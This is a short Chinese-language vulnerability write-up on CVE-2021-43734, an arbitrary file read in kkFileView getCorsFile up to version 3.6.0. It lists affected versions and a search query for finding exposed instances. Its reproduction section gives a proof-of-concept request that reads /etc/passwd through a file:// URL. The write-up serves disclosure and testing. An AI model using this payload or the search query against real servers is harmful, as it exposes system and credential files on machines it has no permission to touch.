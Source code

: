 # 

# kkFileView getCorsFile 任意文件读取漏洞 CVE-2021-43734

## 漏洞描述

kkFileView getCorsFile 3.6.0 版本以下存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的任意文件，获取服务器敏感信息

## 漏洞影响

```
kkFileView getCorsFile <= 3.6.0
```

## 网络测绘

```
body="kkFileView"
```

## 漏洞复现

主页面

![image-20220524172325491](./images/202205241723549.png)

验证POC

```
/getCorsFile?urlPath=file:///etc/passwd 
```

![image-20220524172414993](./images/202205241724070.png)
